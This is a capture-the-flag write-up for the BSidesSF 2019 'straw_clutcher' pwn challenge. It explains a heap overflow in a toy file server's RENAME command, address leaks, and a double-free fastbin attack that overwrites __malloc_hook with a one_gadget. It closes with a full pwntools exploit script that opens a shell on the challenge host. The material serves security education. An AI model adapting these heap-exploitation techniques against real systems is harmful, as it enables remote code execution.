



# BSidesSF 2019 CTF

## straw_clutcher

## Information

**Category** | **Points** | **Solves** | **Writeup Author**
--- | --- | --- | ---
PWN | 400 | 4 | [merrychap](https://github.com/merrychap)

**Description:** 

> Location - straw-clutcher-717c5694.challenges.bsidessf.net:4321

**Files:**

[straw-clutcher](./straw-clutcher)

## General information

The binary was really crazy for pwn challenge :D

There are a lot of code, but if you spend enough time on it, then it wouldn't be a problem to find the bug. But first things first.

## Reversing the binary

<p align="center">
  
</p>

So, there is a global buffer for user input which is allocated on a heap. After we input data, it's compared in some obfuscated way with characters. I will not cover reverse part here, because it's not very complicated and you can do it by your own. Most of the code here is different input validations, so this is not very interesting

The binary is kinda file transfer server and there are several actions we can produce (all "files" are memory structures and not the "real" files):

- `PUT [FILENAME] [FILE SIZE]` - creates a file with the specified filename and size. After this, we read data into the created file.

- `RENAME [OLD FILENAME] [NEW FILENAME]` - rename a file

- `DELE [FILENAME]` - delete specified file. It also frees the data that were allocated for this file

- `RETR [FILNAME]` - print file's data

- `TRUNC [FILENAME] [NEW SIZE]` - truncates the size of a specified file.

Okay, you can play now with the server to understand the functionality more deeply.

By the way, files are basically linked-list and each file has a pointer to the previous file structure. Hence, when it iterates through the files, it starts with the last one and goes up to the first.

## Vulnerability

After looking around the code searching for the vuln I found some interesting place in `RENAME` function:

<p align="center">
  
</p>

First of all, we check `old_name` length and force it can't be longer than `0x1f`. And then the same for `new_name`, but... We check `old_name` again instead of `new_name` length. That's the vuln - __heap overflow__.

Now, let's explore the file structure (I suppose everything should be clear):

```c
struct file_t {
    char filename[0x20];
    unsigned long file_size;
    char *data;
    long free_option; /* clear a chunk via munmap or free */
    struct file_t *prev_file;
};
```

So, by overflowing filename we can overwrite `file_size, `data` and `prev_file` fields. 

By the way, thanks to [iddm](gyiddm@gmail.com) to point me out that free_option is actually present in the structure (previously I wrote that this a dummy structure field and isn't used in the binary, but I obviously was wrong)


## Leaking addresses

First of all, we want to leak some addresses, so let's start with `file_size`. By writing some big number into `file_size` and then calling `RETR` we can leak everything on the heap below the current chunk. Libc address can be leaked by creating unsorted bin chunk below the target chunk and heap addresses can be leaked by just creating some new file below the target. Cool, we have `libc` and `heap` addresses.

## Spawning the shell

I forgot to say that there are some constraints on the filename, namely, `[A-Za-z0-9]+.[A-Za-z0-9]{3}` or something like this.

My main target was overwriting `__malloc_hook` with `one_gadget`, so we need to achieve fastbin attack. To do this, double free will be the best choice. When we delete a file something like this happens:

```c
free(file->data);
free(file);
```

So we can try to create a fake chunk `fake_file` where `fake_file->data` will point to some freed chunk with `0x70` size. Hence, it's double free and fastbin attack can be performed.

Let's consider some `file` structure. To create a fake chunk we can overwrite lsb of `file->prev_file` to point to `file->data` which we control without any constraints. To do this, we need that lsb of `file->data` will satisfy constraints on a filename.

If everything is okay, then we can produce typical fastbin attack with overwriting `__malloc_hook`.

## Exploit

The final exploit is as follows (I added some comments to make it more readable):

```python
from pwn import *


def main():
    libc = ELF('./libc-2.23.so')
    pc = remote('straw-clutcher-717c5694.challenges.bsidessf.net', 4321)

    pc.sendline('PUT AAA.EXE 10')
    pc.send('A' * 10)

    pc.sendline('RENAME AAA.EXE BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.EAA')
    pc.sendline('PUT CCC.EXE 128')
    pc.send('C' * 128)
    pc.sendline('PUT DDD.EXE 10')
    pc.send('D' * 10)

    pc.sendline('DELE CCC.EXE')

    # overwriting file->file_size with 0x4141
    pc.sendline('RETR BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.EAA')
    pc.recvuntil('200 File download started. Prepare to get 16705 bytes')
    data = pc.recvuntil('Data transferred!')
    good_slice = data[100:209]
    
    libc_base = u64(good_slice[-24:-16]) - 0x3c4b78
    __malloc_hook = libc_base + libc.symbols['__malloc_hook']
    __free_hook = libc_base + libc.symbols['__free_hook']
    heap = u64(good_slice[-48:-40])

    log.success('libc base @ ' + hex(libc_base))
    log.success('heap @ ' + hex(heap))
    log.success('__free_hook @ ' + hex(__free_hook))
    log.success('__malloc_hook @ ' + hex(__malloc_hook))

    #################################################
    #################################################

    # creating a fake file structure chunk
    pc.sendline('PUT EEE.EXE {}'.format(0x48))
    pc.send(p64(0x4848482e484848) + p64(0) * 4 + p64(0x68) + \
        p64(heap + 0x250) + p64(0) + p64(heap + 0x190)) # -0x23

    
    # make two freed 0x70 chunks
    pc.sendline('PUT TTT.TTT {}'.format(0x68))
    pc.send('T' * 0x68)
    pc.sendline('PUT KKK.KKK {}'.format(0x68))
    pc.send('K' * 0x68)
    pc.sendline('DELE TTT.TTT')
    pc.sendline('DELE KKK.KKK')

    # overwrite lsb of file->prev_file
    pc.sendline('RENAME EEE.EXE ' + 'E' * 7*8 + 'EEEEE.EXP')
    
    # and clear already freed 0x70 chunk
    pc.sendline('DELE HHH.HHH')

    pc.sendline('PUT LLL.LLL {}'.format(0x68))
    pc.send(p64(__malloc_hook - 0x13) + 'K' * 0x60)
    pc.sendline('PUT MMM.MMM {}'.format(0x68))
    pc.send('M' * 0x68)
    pc.sendline('PUT NNN.NNN {}'.format(0x68))
    pc.send('N' * 0x68)

    one_gadget = 0x4526a

    # allocate file->data above of __malloc_hook
    # and write one_gadget into this
    pc.sendline('PUT OOO.OOO {}'.format(0x68))
    pc.send('AAA' + p64(libc_base + one_gadget) + 'O' * (0x60-3))

    # trigger malloc
    pc.sendline('PUT JJJ.JJJ 8')

    pc.interactive()


if __name__ == '__main__':
    main()
```

After running this exploit we've got:

<p align="center">
  
</p>

> Flag: CTF{hoisting_the_flag}

Flag is not really interesting, but the challenge was pretty good!